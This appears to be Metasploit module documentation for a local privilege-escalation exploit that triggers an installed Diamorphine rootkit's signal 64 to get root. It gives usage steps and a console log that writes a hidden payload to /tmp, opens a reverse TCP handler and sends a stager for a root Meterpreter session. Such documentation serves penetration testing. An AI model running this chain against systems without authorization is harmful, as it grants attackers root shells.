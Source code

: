 ## Vulnerable Application

[Diamorphine](https://github.com/m0nad/Diamorphine) is a Linux Kernel Module
(LKM) rootkit.

This module uses Diamorphine rootkit's privesc feature using signal 64 to
elevate the privileges of arbitrary processes to UID 0 (root).

This module has been tested successfully with Diamorphine from `master` branch
(2019-10-04) on Linux Mint 19 kernel 4.15.0-20-generic (x64).

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/linux/local/diamorphine_rootkit_signal_priv_esc`
4. `set SESSION [SESSION]`
5. `check`
6. `run`
7. You should get a new _root_ session

## Options

**SIGNAL**

Diamorphine elevate signal. (default: `64`)

## Scenarios

### Linux Mint 19 (x64)

```
msf5 > use exploit/linux/local/diamorphine_rootkit_signal_priv_esc
msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set verbose true
verbose => true
msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > check

[*] Executing id ...
uid=0(root) gid=0(root) groups=0(root),1001(test)
[+] The target is vulnerable. Diamorphine is installed and configured to handle signal '64'.
msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > run

[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Executing id ...
uid=0(root) gid=0(root) groups=0(root),1001(test)
[*] Writing '/tmp/.hwL5UoDL6mfZ' (207 bytes) ...
[*] Executing /tmp/.hwL5UoDL6mfZ & echo  ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (985320 bytes) to 172.16.191.228
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.228:47694) at 2020-02-16 09:28:59 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 172.16.191.228
OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```

